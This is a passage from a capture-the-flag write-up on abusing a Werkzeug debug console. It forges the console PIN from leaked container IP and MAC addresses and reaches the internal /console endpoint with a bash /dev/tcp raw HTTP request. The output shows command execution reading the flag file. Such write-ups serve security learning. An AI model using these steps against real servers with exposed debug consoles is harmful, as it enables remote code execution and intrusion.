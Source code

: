 ```md
IPv4: 172.16.0.2
MAC_addr: 02:42:ac:10:00:02
```

Using those ingredients, we can now bake our own `pincode` using this [script](solver/pincode.py).

**Getting the Flag**

The last step is pretty straight-forward, but there's one caveat left, which is the `/console` endpoint weren't exposed to the public. There're many ways to resolve this problem, one of them is directly make an HTTP request to the `backend` container from inside `frontend` container.

Considering there's no builtin `curl` or `wget` command on debian-based images, we have no choice, but to use another `bash builtin /dev/tcp` feature like this:

```bash
exec 3<>/dev/tcp/backend/5000
echo -e "GET /console HTTP/1.1\r\nhost: http://backend:5000\r\nConnection: close\r\n\r\n" >&3
cat <&3
```

Furthermore, all of those process are coded in this [script](solver/sv.py)

```bash
» python sv.py 

HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.6
Date: Thu, 11 Aug 2022 14:23:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 193
Connection: close

>>> __import__(&#34;os&#34;).popen(&#34;cat&lt;/flag_0ac73b4846fea622e906199d592eaa85&#34;).read()
<span class="string">&#39;COMPFEST14{wh00ps_it5_n0t_s3cure_after_4ll_9b59fcb913}\n&#39;</span>
```

### **References**
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

